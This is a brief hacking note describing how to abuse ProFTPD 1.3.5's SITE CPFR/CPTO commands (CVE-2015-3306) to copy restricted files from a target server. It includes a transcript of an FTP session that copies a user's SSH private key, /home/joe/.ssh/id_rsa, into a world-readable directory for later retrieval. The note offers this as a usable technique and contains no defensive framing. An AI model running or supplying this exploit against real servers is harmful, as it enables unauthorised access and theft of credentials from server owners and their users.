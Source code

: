 This little hack is good for copying (blindly?) files (keys) from a 
restricted directory to another location that we may have access to, perhaps 
we mounted a remote dir via NFS or whatnot or we can just grab it via HTTP.

Permissions might be misconfigured on target files.  Some FTP servers 
don't respect permissions (CVE-2015-3306, for example)  and perhaps are 
not properly isolated (e.g. chroot).


Real Example:
```
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.12.255]
    site cpfr /home/joe/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    site cpto /var/tmp/id_rsa
    250 Copy successful
    quit
    221 Goodbye.
```
    
